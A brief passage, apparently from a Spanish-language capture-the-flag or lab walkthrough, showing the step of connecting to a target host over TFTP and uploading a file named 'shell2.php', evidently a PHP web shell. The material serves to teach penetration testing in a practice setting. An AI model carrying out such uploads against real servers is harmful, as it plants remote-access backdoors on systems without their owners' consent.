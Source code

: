 ![](../img/7f2cae1bac06074876c9e37a2c05243a.png)

### 2. 🚀 Subir el archivo con TFTP

```bash
tftp 10.129.9.86
tftp> put shell2.php
```
